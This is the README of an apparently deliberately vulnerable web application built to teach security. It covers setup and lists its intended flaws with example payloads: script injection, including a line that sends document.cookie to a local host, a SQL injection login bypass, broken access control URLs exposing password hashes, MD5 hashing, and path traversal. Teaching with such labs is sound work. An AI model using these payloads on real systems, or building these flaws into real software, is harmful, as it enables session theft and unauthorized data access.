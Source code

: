 # DontDoThis

Simple web application with a bunch of serious security flaws.

It is intended as a teaching tool for security.

## Getting started

Run `npm ci` to install dependencies.

Run `npm start` for a dev server. Navigate to http://localhost:4200/.

Reset the database with `npm run sync`.


## Vulnerabilities

- About us form - script injection
    - <script>alert("Exploited")</script>
    - <script>fetch(`http://localhost:8000/${document.cookie}`)</script>
- Login form - SQL injection
    - " or id = 1 and "" = "
- Info page - Broken access control
    - GET /api/company/2
- User endpoint - Broken access control / forced browsing
    - http://localhost:4200/api/user/2 -> exposing password hash
- Cryptographic Failures -> MD5 hashing
- Path traversal
    - http://localhost:4200/api/message/company/../package.json